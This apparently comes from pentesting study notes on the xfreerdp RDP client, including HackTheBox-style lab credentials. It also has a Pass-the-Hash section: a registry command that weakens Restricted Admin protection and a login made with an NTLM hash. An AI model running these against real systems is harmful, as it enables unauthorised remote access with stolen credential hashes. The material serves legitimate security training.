 ```yaml
---
tags:
  - Enumeration
  - TCP
  - RemoteDesktopProtocol
  - RDP
  - Tooling
---
```

[xfreerdp(1): FreeRDP X11 client - Linux man page](https://linux.die.net/man/1/xfreerdp)

xFreeRDP is an open-source remote desktop protocol (RDP) client that allows users to connect to a Windows desktop from a Linux, macOS, or other operating systems. It provides a graphical interface for accessing remote desktops and can be used for tasks such as remote administration, technical support, and accessing files and applications on a remote computer. xFreeRDP supports various RDP protocols and features, making it a versatile tool for remote desktop access.

# Command Example

```shell-session
xfreerdp /v:<targetIp> /u:User /p:Password
```

```shell-session
xfreerdp /u:Administrator /p:'HTB_@cad3my_lab_W1n10_r00t!@0' /v:10.129.23.147 /dynamic-resolution
```


## Pass the Hash

#### Enable Restricted Admin Mode to Allow PtH

```cmd-session
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

```shell-session
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```